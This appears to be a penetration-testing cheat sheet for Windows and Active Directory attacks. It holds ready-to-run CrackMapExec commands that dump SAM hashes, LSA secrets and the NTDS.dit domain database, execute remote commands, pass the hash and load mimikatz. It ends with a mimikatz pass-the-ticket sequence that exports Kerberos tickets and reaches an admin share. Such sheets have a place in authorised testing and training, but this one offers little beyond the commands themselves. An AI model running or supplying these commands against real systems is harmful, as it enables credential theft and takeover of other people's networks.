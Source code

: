 ```bash

# dumps SAM hashes
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam

# dumping lsa secrets
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa

# dumps NTDS.dit file
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds

# lists users of a specific group
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname}

# execute command in cmd
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command'

# Pass the hash
crackmapexec smb <ip or range> -u username -H <full hash> --local-auth
# We can run all the above commands with hash and obtain more information

# crackmapexec modules
# listing modules
crackmapexec smb -L 
# shows the required options for the module
crackmapexec smb -M mimikatx --options 
# runs default command
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz 
# runs specific command -M 
crackmapexec smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='privilege::debug' 
```

## Crackmapexec database

```bash
# to launch the console
cmedb 
# run this command to view some others, running individual commands give infor on all the data till now we did.
help 
```

## Pass the ticket

```powershell
.\mimikatz.exe
sekurlsa::tickets /export
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<RHOST>.LOCAL.kirbi
klist
dir \\<RHOST>\admin$
```
